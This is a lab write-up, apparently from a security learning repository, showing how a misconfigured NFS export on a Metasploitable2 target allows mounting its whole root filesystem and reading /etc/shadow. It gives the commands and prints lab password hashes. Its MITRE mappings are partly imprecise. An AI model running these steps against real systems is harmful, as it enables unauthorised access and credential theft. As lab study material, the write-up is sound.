 # NFS Exploit - Misconfigured Export with Root Access

# Summary

We exploited a misconfigured NFS (Network File System) export on Metasploitable2 which allowed us to mount the entire root (`/`) directory of the target system. This gave us access to sensitive files such as `/etc/shadow`, enabling offline password cracking or further privilege escalation.

---

#  Vulnerability

- **Service:** NFS
- **Port:** 2049
- **Exploit Type:** Misconfiguration (`no_root_squash`)
- **CVE:** N/A (Misconfiguration, not a specific CVE)

---

# Tools Used

- `showmount`
- `mount`
- `cat`
- `sudo`
- Kali Linux

---

# Steps to Reproduce

### 1. Check for NFS Exports

showmount -e 192.168.6.3

Export list for 192.168.6.3:
/ *
This means the root directory / is exported to all IPs — highly insecure.

## 2. Mount the NFS Share Locally

sudo mkdir /mnt/nfs_root
sudo mount -t nfs 192.168.6.3:/ /mnt/nfs_root

## 3. Check Mounted Filesystem

ls /mnt/nfs_root

You should now see the full file tree of the target system.

## 4. Read sensitive files

sudo cat /mnt/nfs_root/etc/shadow

Partial Output: root:
$1$/avpfBJ1$x0z8w5UF9Iv./DR9E9Lid.:14747:0:99999:7:::
...
msfadmin:$1$XN10Zj2c$Rt/zzCW3mLtUWA.ihZjA5/:14684:0:99999:7:::
...
(see screenshot for whole output)

# Impact

Full read/write access to target filesystem

Access to password hashes in /etc/shadow

Can place cron jobs, SSH keys, or reverse shell scripts

Possible privilege escalation to persistent root shell

# MITRE ATT&CK Mapping

Initial Access: 

T1135 – Network Share Discovery

Lateral Movement / Persistence:

[T1021.002 – Remote Services: SMB/Windows Admin Shares](used here in Unix form via NFS)

T1003.008 – OS Credential Dumping: /etc/shadow

[T1053.003 – Scheduled Task/Job: Cron](if used for persistence)